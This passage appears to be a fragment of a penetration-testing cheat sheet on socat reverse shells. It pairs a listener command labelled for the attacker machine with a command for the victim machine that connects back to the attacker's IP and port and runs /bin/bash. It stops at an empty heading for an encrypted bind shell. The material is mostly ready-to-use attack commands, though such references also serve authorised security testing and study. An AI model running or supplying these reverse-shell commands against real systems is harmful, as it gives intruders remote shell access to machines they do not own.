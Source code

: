 #### Socat Reverse Shells



**Attacker** Machine &#x20;

```bash
socat -d -d -v tcp4-listen:<PORT> stdout
```

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

**Victim** Machine &#x20;

```bash
socat  -d -d TCP4:<IP>:<PORT>,fork  exec:/bin/bash

```

<figure><img src="../../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

### Socat Encrypted Bund Shell&#x20;
